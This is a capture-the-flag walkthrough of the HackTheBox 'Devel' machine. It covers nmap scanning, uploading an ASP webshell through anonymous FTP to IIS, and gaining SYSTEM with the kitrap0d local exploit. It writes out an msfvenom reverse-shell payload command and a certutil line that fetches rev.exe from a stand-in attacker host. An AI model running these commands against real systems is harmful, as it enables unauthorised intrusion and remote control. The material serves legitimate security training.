

## HackTheBox - Devel

I started with the initial nmap scan to see which ports are open to us.

`nmap -Pn -sV -sC -T4 <IP>`


We see an FTP server on port 21 and an IIS web server on port 80.
Through the `-sC` switch of nmap we also see that the FTP server is supported with an **Anonymous Login**.

I logged on to the FTP server to see what was on it.


`aspnet_client`,`iisstart.htm`,`welcome.png`...

If we append these files/paths to our URL in the browser and look at them in the web browser, we quickly understand that the FTP server is set up so that we have access to the web server.

I uploaded a small test file and saw that we can easily upload files to the webserver which are also accessible.

So I picked a simple ASP webshell and uploaded it. 



With a `whoami` command, we see that we can issue system commands and also immediately recognise that we are operating under the user `iis apppool\web`.

My next step was to establish a more interactive meterpreter session.

I created an exe for a meterpreter reverse session with `msfvenom` and started the listener.

`msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=1234 -f exe > rev.exe`

Then I started a `python3 -m http.server` webserver on my machine and loaded the exe with the `certutil.exe` tool into the `C:\Windows\Temp\` directory of Windows.

Command: `certutil.exe -urlcache -split -f http://<ATTACKER_IP>:8000/rev.exe C:\Windows\Temp\rev.exe`

Then just run in the webshell `c:\Windows\TEMP\rev.exe` and we get our meterpreter reverse shell.


## PrivEsc
`sysinfo` showed me that we are dealing with a relatively old `Windows 7`.

```
(Meterpreter 1)(c:\windows\system32\inetsrv) > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

I searched for local exploits with the post module of metasploit `multi/recon/local_exploit_suggester` and got the following suggestions.


The exploit `windows/local/ms10_015_kitrap0d` worked.

I was now `NT AUTHORITY\SYSTEM` and I got the user and root flag.


